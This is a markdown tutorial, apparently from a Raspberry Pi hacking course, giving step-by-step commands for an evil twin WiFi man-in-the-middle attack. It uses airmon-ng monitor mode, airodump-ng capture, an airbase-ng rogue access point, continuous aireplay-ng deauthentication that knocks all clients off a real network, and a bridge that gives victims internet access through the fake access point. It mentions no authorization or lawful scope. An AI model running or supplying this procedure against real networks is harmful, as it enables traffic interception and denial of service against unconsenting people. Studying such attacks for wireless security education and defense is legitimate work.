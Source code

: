 Now we want to get started learning some simple WiFi hacks.

We will:

1. Enable our WiFi adapter for monitoring mode.
2. Perform a simple Evil twin attack which is a kind of Man in the middle attack that will allow your Raspberry Pi to act as an AP to monitor information.

Getting Started:
  1. Plug in and turn on your Raspberry Pi
  2. You will need to install bridge utils.
    - After you've SSH'd into your Raspberry pi, run:
      `apt-get install bridge-utils`

Steps:

  1. To show available wireless interfaces run:
    `iwconfig`

  <img src="/img/iwconfig.jpg"/>

  2. Start monitor mode on the available WiFi device.
    Run:
      `airmon-ng start wlan1`

    Also make note of any alerts like:
      `Found 3 processes that could cause trouble.`

      <img src="/img/airmonstart.jpg"/>

      "Kill" those processes, they may interfere they may not, you will need to restart the dhclient later:
        `airmon-ng check kill`
      Then re-run:
        `airmon-ng start wlan1`
      <img src="/img/airmonstart2.jpg"/>
  3. Capture packets from the air using the device you put in monitor mode.
      - Run:
        `airodump-ng wlan1mon`

        <img src="/img/capturepackets.jpg"/>

      - After about half a minute enter `control + c` and open a new terminal

      - Open an SSH session with your Raspberry Pi in that terminal like you did at the beginning.

    4. Create the twin

  Run:
          `airbase-ng -a [BSSID] --essid <ESSID here> -c <channel here> <interface name>`
5. De-authenticate the client
For this I am using my phone as the client that is the target of the attack.
          Run:

              `aireplay-ng --deauth 0 -a [BSSID] wlan1mon --ignore-negative-one`

"0" sets the time interval for sending de-authentication requests. 0 = very fast, 1 = 1/second, 2 = 1 every 2 seconds, etc.

This will disconnect all clients from the network

<img src="/img/deauth.jpg"/>

  6. Give the "evil twin" internet access
    This will provide internet access to the fake Access Point and allow clients to connect thinking they're accessing the real Access Point.

        Run:
          `brctl addbr evil`
        This creates a bridge.

        `brctl addif evil eth0`
        and
        `brctl addif evil at0`

        are the two interfaces being bridged.

        "eth0" is the the internet connection on my Raspberry Pi

        and "at0" is the interface created by airmon-ng that clients will connect to the internet through.

        Next you want to assign IP's to the interfaces with:
        `ifconfig eth0 0.0.0.0 up`
        `ifconfig at0 0.0.0.0 up`

        Bring up the evil interface:
        `ifconfig evil up`

        Auto configure DHCP settings:
        `dhclient evil &`

        This completes the set up for the attack. You can see my phone connecting to the "Evil twin"
<img src="/img/phone.jpg"/>
